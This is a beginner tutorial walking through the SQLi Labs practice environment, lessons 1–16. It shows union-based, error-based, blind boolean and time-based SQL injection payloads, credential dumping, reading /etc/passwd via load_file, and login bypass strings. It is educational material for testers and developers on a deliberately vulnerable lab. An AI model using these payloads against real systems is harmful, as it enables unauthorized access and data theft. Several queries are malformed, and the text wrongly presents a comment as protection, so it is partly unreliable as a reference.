




##Introduction

Structured Query Language, also known as SQL, is basically a programming language that deals with databases. For beginners, databases are simply data stores that contain both client side and server side data. SQL manages databases through structured queries, relations, object oriented programming, etc. Programming geeks will have come across many such types of software, like MySQL, MS SQL, Oracle, and Postgresql. These are a few of the programs that give us the capability to manage large databases/data stores through structured queries. Script kiddies would definitely have had hands-on experience with terms like SQL injection, which they may have even performed through the use of automated tools like SQL Map or SQL Ninja, but may not know the actual working of it. In this short tutorial I will try to give you a deep understanding of how SQL injection works, how an attack takes place, and what it takes to call an application SQL-vulnerable. The lab we will be using for demonstration is SQLi Labs, which can be freely downloaded from https://github.com/Audi-1/sqli-labs solely for the purpose of studying and making applications safe from such vulnerabilities, talking from a programmer’s perspective. So this tutorial will have a hands-on mix both for coders and for security testers. 

##Installation:

1. Download the source from https://github.com/Audi-1/sqli-labs
2. Copy this into your Apache webroot folder ( htddocs, /var/www)
3. Open the file “db-creds.inc,” which can be found under sql-connections folder
4. Change the mysql username and password to your own
5. Open your browser and access the folder through localhost to fire the index.html file
6. Click on the link setup/resetDB to create the database in your mysql
7. Game on!

##Labs:

###Lesson 1: GET – Error-Based – Single Quotes – String

You get a “Welcome Dhakkan” (a Hindi slang word that usually refers to a stupid person). The programmer for SQLI Labs definitely has a good sense of humor. Now we get a parameter “id” with numeric value injection.

**-> ?id=1**

Fire!

Task completed! We have the login name Dumb and the password is Dump. So basically we added a parameter to the URL and pointed that parameter to the first record. There was an immediate query from the browser to the database table to fetch the record for id=1. Similarly, you can fire the query for subsequent records like 2, 3, 4….

Here is the actual query which ran at the back end:

`Select * from TABLE where id=1;`

###Lesson 2: GET – Error-Based – Integer-Based

Now we try to attack the application similarly by putting in strings such as “abc“and “abcd.” We observe that for lesson 2 we receive an error from the database. Next we do a bit of tampering with the number and add a ‘ (single quote) with the number.

We again get an error in the Mysql server for incorrect syntax.

**You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’ LIMIT 0,1′ at line 1**

Now the query which it changes to is

`Select * from TABLE where id = 1’ ;`

So we have an odd number of single quotes (‘), which breaks the query and also string input throwing error.

Hence the result we come out with is that the coder has used integer for the query

`Select * from TABLE where id = (some integer value);`

Now, from the developer’s perspective, to add protection from such errors we can comment out the rest of the query:

`http://localhost/sqli-labs/Less-2/?id=1–-`

Note: Be sure to add a space after the comments or URL encoded space (%20) or else the comment will not work.

##Lesson 3: Error-based single quotes with twist – string

In this lesson we will learn to perform an error-based single quote attack. In the screenshot below, we quote

`?id=’`

After injecting the code we got an error message like

**MySQL server version for the right syntax to use near ””) LIMIT 0,1′ at line 1**

Here it means that the developer has used the query which is

`Select login_name, select password from table where id= (‘our input here’)`

So again we inject the code with this

`?id=1′) -–+`

We are able to get through with the username and password and the query has been commented out.

##Lesson 4: Error-based double quotes string

In this lesson we will learn to perform an error-based double quotes attack as shown below in the screenshot

`?id=1"`

After injecting the code we can see a username and password. Now we try to dump the database to retrieve some sensitive information. Let us assume in the beginning that there are three columns presented in the database. So here we use the union select command to dump the database like this: 

`?id=1") union select 1,2,3 –+`

Now to do some sql basics we start mysql and check the database through the query

`show databases;`

For the purpose of this lab the database name is **security** so we select security through the command.

`Use security;`

Now we check the tables with show tables;

Here we can see there are four tables and let us see the structure of the table.

`desc emails;`

Before continuing to the front-end attack we want to discuss the system database, which is **information_schema**. So we use it through

`use information_schema`

Let us see the tables.

`Show tables;`

Now we have to enumerate the table first

`desc tables;`

Now we use this query:

`select table_name from information_schema.tables where table_schema = “security”;`

On using the query, it dumps the table names. We now inject the same query into the URL; the query is

`?id=1”) union select 1,table_name,3 from information_schema.tables where table_schema=’security’ --+`

and we can see the first table name email in the screen.

Another method is to group together all the table names and dump it out as a string. The query for doing this is

`?id=1”) union select 1,group_concat(table_name)3 from information_schema.tables where table_schema=’security’ – -+`

And in the result we can see all the tables.

We group concat different columns and dump it in a single shot with this

`?id=1′ union select 1,group_concat(username),group_concat(password) from users –+`

And we can see the result on the screen.

###Lesson 5:Fixing the query without using comments

In this lesson we will learn to perform an error-based double quotes injection attack as shown below.

`?id=1′ AND ’2 `
OR 
`?id=3′ AND ’4`

After injecting this type of code, the database always shows different usernames and passwords. Now we use the union select command to get more sensitive information from the database. Here is the query we use:

`-6′ union select 5, version(),3 AND ’1`

In this query we use the version() function for detecting the database version; similarly, we can use another different query for retrieving more information from database. Now we use the query for getting the current username:

`-6′ union select 5,current_user,3 AND ’1`

###Lesson 6: Double-injection double quote

In this lesson we will learn how to perform an error-based double quote injection attack, as shown in the screenshot below:

`?id=3`

After injecting the query, we can see an sql error message on the screen. Before continuing further, we will discuss some basic functions of sql (a treat to both the programmers and the testers). We start from the count function, which just returns us the number of rows.

`select count(*) from information_schema.tables;` 

Let us try another one by using random function. By using this function we get a random value between 1 and 0:

`select rand() ;`

Another interesting function which we use here is group by clause; let us see an example:

`select table_name, table_schema from information_schema.tables group by table_schema`

Now we come to the main point that we were working on, which was dumping the database in the form of a sql error.

Let us select the database:

`select database();`

It shows our current database security. Now let us add a few more things to the query (select
database()) between the parenthesis. We concatenate the output with the query:

`select concat((select database())); `

Now add some fancy displays like this:

`select concat(0x3a,0x3a,(select database()),0x3a,0x3a) `

This is a hex value for a column.

Copy these strings in Notepad as we are building them.

Since this string select concat(0x3a,0x3a(select database()),0x3a,0x3a)
is very big, we should give it a short name like a.

Here is the query for it: 

`select concat(0x3a,0x3a(select database()),0x3a,0x3a) a;`

Again copy the string:

Now let us add some randomness to it using:

`select concat(0x3a,0x3a(select database()),0x3a,0x3a, floor (rand()*2)) a;`

And copy the string.

Let us add multiple values by defining any random table to like this: 

`select concat(0x3a,0x3a(select database()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns;`

After typing this we can see here the number of rows:

Copy the string again.

Now you can select tables or any database from information_schema that you want like this:

`select concat(0x3a,0x3a(select database()),0x3a,0x3a, floor (rand()*2)) a from information_schema.tables;`

After typing this we can see here the number of rows:

Copy the string.

Now add another column into the previous string and group the whole string by a like this:

`select count(*),concat(0x3a,0x3a(select database()),0x3a,0x3a, floor (rand()*2)) a from information_schema.tables group by a;`

And here we see the output in above screenshot (60:0 and 67:1). Now we again use in the same query three to four times like this:

After some tries we get an error message since the random number is repeated.

Copy the string.

But in that error message it gives the core path, the database name security, as we asked it do. Let us ask it for the version name:

`select count(*),concat(0x3a,0x3a(select version()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns group by a;`

And it dumps the version name.

Let us try to dump a user:

`select count(*),concat(0x3a,0x3a(select user()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns group by a;`

After using the query a few times it generates an sql error message with username:

By this technique we can dump the information from the database through the sql error message.

###Lesson 7: Dumping database using out file

In this lesson, we will learn how to dump the database by using outfile. Let us start by breaking the sql query like this:

`?id=1′–-+`

Now I would like to discuss some functions at the back end. Start mysql at your terminal and use the database security:

`use security;`

Let us dump the database with basic commands: 

`select * from users;`

Now dump the database and ask mysql to write it into a file by using a function called outfile, so the query is

`select * from users into outfile “/tmp/tests.txt”`

Let us see the content of the test.txt file.

There is another function, which is known as dump file. Dump file uses only a single row so we have to give it a limit for dumping the database:

`select * from users limit 0,1 into dumpfile “/tmp/test2.txt”`

Another function which is used is load file. It is used for loading files from the file system into mysql. Here is the query:

`select load_file(“etc/passwd”);`

It has dumped the passwd file.

Combine both of them and dump the combination into an outfile. The query is

`select load_file(“etc/passwd”) into outfile “tmp/test4.txt”;`

Let us see the test4.txt file:

Now come to the front end part and type in this query into the address bar:

`?id=2′)) union select 1,2,3 into outfile “/var/www/sqli-labs/Less-7/union2.txt” –+`

Now check the union2.txt file:

In this way, we can change the string to get more information, such as database version, current user, etc., as we already did in the previous lessons.

##Lesson 8: Blind Boolean-based single quotes

In this lesson we will learn to perform blind injections. Let us start from enumeration and try to break the query:

`?id=1′ `
`?id=1)`

After injecting some queries we see that we do not have an error message on the screen. Hence we are not sure here that the injection exists on this page or not. That is why this type of injection is called blind injection. There are two types of blind injection, Boolean-based and time-based injections.

Let us start from the basics; start mysql and select the default database:

`use security;`

Now we introduce a new function, length:

`select length(database());`

Let us ask the database some small questions like what is the first character of the database. If the first character of the database is S, it will return a reply which is true. If the second character is A, then the database will reply false, since A
does not belong to the database name, but E also gives true. Now we use another technique, in which we change the way of querying the database and it responds back. There is a function to break up the strings into part; it is called sub string. The query is

`select substr(database(),1,1);`

We use a new function called ASCII function. This function is used for getting the ASCII value of a string. This will make easier for us to detect the first letter of database, as shown in the screenshot below. We have a value of 115 and the query used is

`select ascii(substr(database(),1,1));`

Now we check the value of 115 in the ASCII sheet.

Let us check the value of the second letter, E. It is 101.

Let us check the value in mysql query: 

`select ascii(substr(database(),2,1));`

In the same way, we can get more ASCII values. We evaluate the query

Select ascii(substr(database(),2,1)) = 101;
equal to 101.
Yes it is true; the returned value is 1 since the letter E has the ASCII value 101.

Next we check this query:

`select ascii(substr(database(),2,1)) < 101;`

The result is false because it is equal to 0, since the ASCII value is not less than 101. Let us try to guess the 3rd character by this query:

`select ascii(substr(database(),3,1)) < 101;`

And the result is 1, meaning true. So make it 97 then. Use

`select ascii(substr(database(),3,1)) < 97;`

And the result is 0; it means false, hence the valid value lies between 97 and 101. So now keep trying to guess all values from 97 to 101.

We get the 3rd value which is 99 and check it in the ASCII table sheet.

Now we use this query in the URL:

`?id=1′ AND (ascii(substr((select database()) ,3,3)) = 99 –+`

and we are through.
You are
in…………….
It means the value 99 is true.

Let us see what happens if we change the value 99 to 98:

`?id=1′ AND (ascii(substr((select database()) ,3,3)) = 98`

We see that nothing happens on screen and we conclude that we get a false.

Now we start to enumerate the database. The query is

`id=1′ AND (ascii(substr((select table_name information_schema.tables where table_schema=database()limit 0,1) ,1,1)) < 105 –+`

and we see
a message
You are in……….
It means true.

Now let us try value 101:

`id=1′ AND (ascii(substr((select table_name information_schema.tables where table_schema=database()limit 0,1) ,1,1)) = 101 –+`

and we see a message
You are in……

It means the 1st letter is E for Email.

#Lessons 9 & 10: Blind injection time-based

Lab 9 does not give us a signal or an error that we have tampered the query, which results in Mysql error. So now it makes us check whether SQL injection is possible.

Here we introduce how to use the sleep command in Mysql. What we see from the screenshot is that we get a response 10 sec after running the query, so the Mysql sleeps for 10 seconds.

Now when we run another query select if
((select database()=”security”, sleep(10), null); we get the response 10 seconds after giving us the result that a database security exists. This is also known as a time-based SQL query.

Similarly if we try to run the query select if ((select database()=”securi”, sleep(10), null);
there is no time-based response from the SQL server which means that such a database does not exist.

Now we do the same thing in our browser query.

We alter the parameter with

?id=1′ and ((select database()=”security”, sleep(10), null);

There is a waiting response from the browser which you can notice at the bottom of the screenshot below. Since the time-based SQL query was able to detect a legitimate database it gives us the response. If the database name were incorrect, we would not have got a waiting response.

#Lessons 11 & 12: Post Error-based single & double quotes

In Lessons 11 & 12 we come to error-based SQL Injections in HTML forms. So we have a login page and we try to login using username=”admin” password=”password“. We get a failed login attempt response.

Now we try the query again, using username=” ‘ ” and password= ” ‘ “ (single quotes). We get a login failed attempt again.

Similarly, the failed login error appears for double quotes for both username and password. But when we enter a double quote for just the username the SQL breaks and has an error.

When we use a backslash (/)
we get a better understanding of the query. We come to the result that we have a double quote followed by the bracket. Hence we have successfully derived the query. So the knowledge we take out from this result is that the developer has used the query

Select * from TABLE where username= (“$uname”) and password=(“$password”) LIMIT 0,1

Now in order to fix the query so that it works, we can balance the quotes or comment out the rest of the query. So I comment out the rest of my query in the username field

Now as I press enter, it becomes a valid query though we are not able to login and it does not give us an error message.

Now we alter the username to “) or 1=1 #:

And we are successfully able to login. Cheers J

Similarly, we may get the records for the second user through the username “) or 1=1 LIMIT 2,1 #

The query simply checks for the second OR condition, validates the user, and prints the record of the second row.

#Lessons 13 & 14: Double-injection single quotes with string

Now I will demonstrate Lesson 14 and leave Lesson 13 for readers to practice. It uses the same mechanism as we have used in this lab.

Inputting a large number or a single quote as a username and password does not work. It still gives us a “Login Attempt Failed” message.

Now we try the double quotes in the username and voila, the query breaks.

So what we can infer from this error message is that there is

‘ “/” and password=” ” LIMIT 0,1 ‘ at line 1

Now we use ” or 1 # to bypass the login and we have success. The reason is that the 1 used after OR resolves to true and as a result we have successful query. The password is not matched since we commented out the rest of the query.

Success!!

Now we move on to the next query, which is
Select
concat((select database()));

This basically selects the database and dumps it as a string. If we add the floor and random function to it, it becomes

select concat((select database() ), floor(rand(0)*2 ));

And we have security being concatenated in the output:

We use the information schema table as covered previously to build our query further:

select 1 from (select concat(*), ( concat((select database() ), floor(rand(0)*2 ))c from information_schema.tables group by c)a;

And we use it on the username. Please remember to concat your query so that the query gets executed.

#Lessons 15 & 16: Blind Boolean time-based with single and double quotes.

So now we move on to POST Parameter Blind-based Boolean injections which are like 1 or 1=1,

1 AND 1=1, which means for the first query we have the Boolean value 1 and for the second we also have the Boolean value 1, which equals to TRUE, since an AND function is involved. In order to bypass the lab session 16 we use “) or (“1″)=”1
for bypassing the login. We comment the query by using # if we just want to enter the username.

Now we move on to our next demonstration using Boolean-based blind SQL injections. This time we form the query
“) or AND sleep(15) #
but the query gets no response. We try to correct our query by using “) or OR sleep(15)
#

The query eventually becomes

select col1, col2 from TABLE where username= (” “) or sleep(15)”) and password=(” user data”);

Now since the “) does not result in TRUE, the AND statement fails and the OR statement executes successfully. Now if we change our AND query to admin”) or OR sleep(15) # we have a valid query and it results in TRUE, so our query gets successfully executed.

A special note of thanks for Audi 1 for his amazing test bed SQLi Labs and videos.